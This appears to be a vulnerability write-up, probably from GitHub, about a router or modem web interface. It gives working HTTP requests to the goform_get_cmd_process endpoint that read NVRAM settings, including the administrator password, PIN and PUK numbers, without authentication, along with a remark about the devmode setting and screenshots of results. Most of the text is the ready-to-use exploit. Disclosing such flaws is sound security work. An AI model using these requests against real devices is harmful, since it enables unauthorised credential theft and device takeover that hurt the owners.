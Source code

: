 To perform this attack you may need to set the devmode to 6 if it is not by default (which I beleive it is) as seen below.          

![image](https://user-images.githubusercontent.com/25066959/208161200-d0be214e-ab70-4853-b68b-d9af9d21e5ec.png)

Once this is done it is possible to read arbitrary values from the configuration table in the device NVRAM.          

A request like the following will read the value of the admin_Password field. With this request you will be able to retreive the administrator password for the device unauthenticated.         

```
http://192.168.199.1/goform/goform_get_cmd_process?cmd=admin_Password&multi_data=1
```

![image](https://user-images.githubusercontent.com/25066959/208161155-dd37a5bb-87c2-4d70-9e8a-3f1b821c23e3.png)

![image](https://user-images.githubusercontent.com/25066959/208161010-ddce8cc0-7ab4-40c9-83db-cfbf57907631.png)

```
http://192.168.199.1/goform/goform_get_cmd_process?isTest=false&cmd=modem_main_state,puknumber,
pinnumber,psw_fail_num_str,login_lock_time,admin_user,admin_Password&multi_data=1&_=0
```

![image](https://user-images.githubusercontent.com/25066959/208161356-7c9103ce-5543-4b89-9ebf-f84282c2d26f.png)

![image](https://user-images.githubusercontent.com/25066959/208161411-67c7d073-375f-48e1-84f3-9f6264a0b765.png)
